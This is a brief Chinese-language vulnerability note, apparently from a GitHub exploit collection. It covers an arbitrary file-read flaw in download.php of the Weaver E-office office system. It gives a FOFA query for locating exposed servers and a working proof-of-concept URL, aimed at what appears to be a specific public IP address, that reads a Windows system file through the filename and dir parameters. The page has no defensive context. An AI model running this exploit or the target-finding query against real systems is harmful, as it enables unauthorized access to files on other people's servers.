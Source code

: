 # 泛微E-office协同办公系统 download.php 文件 filename 参数文件读取漏洞

    ## fofa

```
((header="general/login/index.php" || body="/general/login/view//images/updateLoad.gif" || (body="szFeatures" && body="eoffice") || header="Server: eOffice") && body!="Server: couchdb") || banner="general/login/index.php"
```

## poc

```
http://122.224.27.187:8082/general/file_folder/file_new/neworedit/download.php?filename=hosts&dir=C:\Windows\System32\drivers\etc\
```

